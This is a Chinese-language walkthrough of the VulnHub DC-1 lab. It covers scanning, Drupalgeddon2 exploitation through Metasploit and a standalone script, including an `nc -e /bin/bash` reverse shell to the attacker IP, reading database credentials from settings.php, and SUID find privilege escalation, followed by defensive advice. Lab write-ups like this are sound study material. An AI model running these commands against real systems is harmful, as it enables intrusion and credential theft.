

> **靶机来源：** VulnHub - DC-1 | **渗透环境：** Kali Linux + VMware / VirtualBox | **目标 CMS：** Drupal 7 | **核心漏洞：** Drupalgeddon2 (CVE-2018-7600) + SUID find 提权 | **难度：** 初级  

***

## 1. 环境配置

DC-1 靶机与攻击机需处于同一 NAT 网段。从 VulnHub 下载 OVA 镜像导入 VMware/VirtualBox，网络适配器设为 NAT 模式后启动即可。本文环境：攻击机 Kali `192.168.0.107`，靶机 `192.168.0.110`（需探测）。

***

## 2. 信息收集

### 2.1 主机发现

启动靶机后，探测同网段存活主机：

```bash
sudo netdiscover -r 192.168.0.0/24
# 或
sudo arp-scan -l
# 或
nmap -sn 192.168.0.0/24
```

识别出 DC-1 靶机 IP（通常 MAC 厂商为 VMware/VirtualBox）：`192.168.0.110`

### 2.2 端口扫描

对目标进行全端口扫描，识别开放服务：

```bash
nmap -sV -sC -p- -T4 192.168.0.110 -oN dc1_nmap.txt
```

**扫描结果：**

```
PORT      STATE  SERVICE  VERSION
22/tcp    open   ssh      OpenSSH 6.0p1 Debian 6+deb7u7
80/tcp    open   http     Apache httpd 2.2.22 ((Debian))
111/tcp   open   rpcbind  2-4 (RPC #100000)
37833/tcp open   status   1 (RPC #100024)
```

关键发现：**80 端口运行 Apache 2.2.22**，承载 Web 应用。

### 2.3 Web 侦察与 CMS 版本探测

访问 `http://192.168.0.110` 确认 Drupal 站点。通过以下方式获取精确版本：

```bash
curl -s http://192.168.0.110/CHANGELOG.txt          # 直接读取 changelog
whatweb http://192.168.0.110                        # 指纹识别
droopescan scan drupal -u http://192.168.0.110      # Drupal 专项扫描
```

**CHANGELOG.txt 确认目标运行 Drupal 7.54**，存在多个已知高危漏洞。

***

## 3. 漏洞利用

### 3.1 漏洞搜索

```bash
# searchsploit 本地搜索
searchsploit drupal 7

# MSF 搜索
msfconsole -q -x "search drupal 7"
```

关键漏洞：**Drupalgeddon2 (CVE-2018-7600)**，影响 Drupal 6/7/8 多个版本，是一个未认证的远程代码执行（RCE）漏洞，存在于 Drupal 的 Form API 渲染过程中。

### 3.2 Metasploit 利用

使用 `drupal_drupalgeddon2` 模块获取反向 Shell：

```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.0.110
set RPORT 80
set LHOST 192.168.0.107
set LPORT 4444
run
```

会话建立后进入系统 Shell 并升级为 TTY：

```bash
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
whoami    # www-data (uid=33)
```

### 3.3 数据库凭据提取与替代利用方式

Drupal 配置文件 `/var/www/sites/default/settings.php` 含数据库凭据：

```bash
grep -A 5 "databases" /var/www/sites/default/settings.php
mysql -u dbuser -p -e "SELECT name,pass FROM drupaldb.users;"
```

Hash 可用 John/Hashcat 破解。若不用 MSF，可通过独立脚本获取 Shell：

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git && cd Drupalgeddon2
ruby drupalgeddon2.rb http://192.168.0.110
# Python 版本: python3 drupalgeddon2.py -t http://192.168.0.110 -c 'nc -e /bin/bash 192.168.0.107 4444'
# 攻击机监听: nc -lvnp 4444
```

***

## 4. 提权

### 4.1 SUID 文件枚举

以 `www-data` 身份查找具备 SUID 位的可执行文件：

```bash
find / -perm -u=s -type f 2>/dev/null
```

**输出中发现异常项：**

```
/usr/bin/find
/usr/bin/passwd
/usr/bin/su
...
```

正常情况下 `find` 命令不应设置 SUID 位。这通常是靶机作者故意设置的提权途径。

### 4.2 SUID 原理与提权

SUID 位使程序以文件所有者身份运行。若 `find` 属主为 root 且设了 SUID 位（`-rwsr-xr-x`），通过 `-exec` 可 root 权限执行任意命令：

```bash
ls -la /usr/bin/find       # 确认 -rwsr-xr-x 1 root root
/usr/bin/find . -name "dummy" -exec '/bin/sh' \;
# 或更直接: find / -type f -name anything -exec /bin/bash -p \;
# -p 确保 bash 不丢弃有效 UID
whoami && id                # uid=0(root)
```

### 4.3 获取 Flag

DC-1 的 flag 位于 `/root/thefinalflag.txt`，靶机渗透完成。

***

## 5. 渗透链路总结



***

## 6. 核心知识点

### 6.1 工具清单

| 阶段 | 工具 | 用途 |
|------|------|------|
| 主机发现 | netdiscover / arp-scan / nmap -sn | 探测同网段存活主机 |
| 端口扫描 | nmap | 端口和服务版本识别 |
| Web 指纹 | whatweb / curl | CMS 版本识别 |
| Drupal 扫描 | droopescan | Drupal 专用漏洞扫描 |
| 漏洞利用 | Metasploit / drupalgeddon2.py | RCE 漏洞利用 |
| 提权 | find (SUID) | SUID 二进制文件提权 |
| 密码破解 | John the Ripper / hashcat | Hash 离线破解 |

### 6.2 关键技术点

- **Drupalgeddon2 (CVE-2018-7600)：** CVSS 9.8，影响 Drupal 6/7/8 的未认证 RCE。漏洞源于 Form API 渲染数组对 `#post_render` 回调过滤不严，攻击者通过注入 `mail[]` 等参数，在 `call_user_func()` 调用链中执行 `exec`/`passthru` 等危险函数。
- **SUID find 提权：** `find` 被设置为 SUID root 时，低权限用户通过 `-exec` 以 root 身份执行命令，是 CTF 中经典的本地提权手法。
- **信息收集层次递进：** 网络层（端口扫描）→ 应用层（CMS 识别）→ 系统层（SUID 枚举），每层信息都是下一步突破的关键。

***

## 7. 经验总结

### 7.1 渗透思路回顾

1. **穷尽信息收集：** DC-1 通过 `CHANGELOG.txt` 获取精确版本号 7.54 是选择利用方式的前提，`-p-` 全端口扫描避免遗漏非标准端口。
2. **版本对应漏洞：** 确认版本后通过 `searchsploit` 或 Exploit-DB 查找对应漏洞，Drupal 7.x 系列 Drupalgeddon2 是最经典的 RCE。
3. **提权枚举不可少：** 获得 `www-data` shell 后应立即进行本地枚举（SUID、sudo、cron、内核等），DC-1 的 SUID find 是设计好的提权路径。
4. **多种利用方式：** 不依赖 MSF 也可用独立 exp 完成利用，加深对漏洞机制的理解。

### 7.2 常见踩坑记录

| 问题 | 原因 | 解决 |
|------|------|------|
| netdiscover 未发现目标 | 不在同一网段或未使用 sudo | 确认 NAT 模式，使用 `sudo` |
| MSF 会话无法建立 | 网络隔离 | 检查 RHOST/LHOST 配置 |
| Shell 无法执行交互命令 | 非 TTY 环境 | `python -c 'import pty;pty.spawn("/bin/bash")'` |
| bash 提权后仍为 www-data | bash 丢弃 SUID | 使用 `bash -p` 保留特权 |

***

## 8. 防御建议

- **及时更新 CMS：** Drupal 7 升级至 7.58+ 可消除 Drupalgeddon2 漏洞。
- **隐藏版本信息：** 限制 `CHANGELOG.txt` 等文件的访问，减少攻击面信息泄露。
- **最小权限原则：** Web 目录不应由 `www-data` 可写，SUID 文件需严格审计。
- **WAF 规则：** 针对 `#post_render`、`mail[]` 等 payload 特征添加过滤规则。
- **入侵检测：** 监控 SUID 文件的异常设置及 `find -exec` 的执行行为。

***

> **免责声明：** 本文为个人安全学习记录，所有操作均在授权的 VulnHub 靶场环境中进行。文中涉及的技术和方法仅供安全研究与教育目的，严禁用于未授权测试。使用者对自身行为负全部责任。
